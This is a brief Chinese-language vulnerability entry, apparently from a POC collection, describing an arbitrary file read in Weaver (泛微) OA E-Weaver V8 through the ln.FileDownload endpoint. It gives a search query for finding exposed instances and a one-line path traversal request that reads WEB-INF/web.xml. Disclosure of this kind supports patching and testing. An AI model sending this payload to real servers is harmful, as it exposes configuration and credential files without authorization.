

# 泛微OA E-Weaver ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登陆页面


验证POC

```php
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```




